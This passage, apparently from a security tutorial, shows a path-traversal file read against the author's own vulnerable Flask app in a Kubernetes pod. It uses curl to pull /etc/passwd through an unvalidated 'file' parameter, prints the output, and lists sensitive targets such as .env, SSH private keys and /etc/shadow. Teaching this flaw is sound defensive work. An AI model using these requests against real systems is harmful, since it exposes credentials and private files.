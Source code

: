Let us hit the endpoints using curl. But first, let us forward the local port 8000 to the pod's 8000 so that the flask server running inside the pod is accessible from our local machine.
```bash
╭─ubuntu@shishir ~/ 
╰─$ kubectl port-forward test-9d8db8f75-lt5n5 8000:8000
Forwarding from 127.0.0.1:8000 -> 8000
Forwarding from [::1]:8000 -> 8000
```

Now let us update the profile description.
```bash
╭─ubuntu@shishir ~/
╰─$ curl -XPOST http://localhost:8000/update-profile -d 'username=test&description=test'
Profile updated successfully!
```
**Fetch the description that we have obtained**

```bash
╭─ubuntu@shishir ~/
╰─$ curl http://localhost:8000/read-profile\?file\=profile-description.txt\&username\=test
test
```
Everything works as expected. An attacker can analyse the HTTP request and can guess that we are reading something from a file and they can try and change these parameters to try and read some files from the system like `.htpasswd`, `.env`, `~/.ssh/id_rsa`, `/etc/shadow`, log files and much more. 

Let us try to read the contents of `/etc/passwd` file which is a standard file in linux system which stores information about local users.

**Trying to read contents of /etc/passwd**

```bash
╭─ubuntu@shishir ~/
╰─$ curl http://localhost:8000/read-profile\?file\=/etc/passwd\&username\=test
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```
Since there are no validation on what the value of the GET parameter `file` can be, we are able to get the output of the any arbitary file on the file system provided that the process running the flask application has permission to read that file.
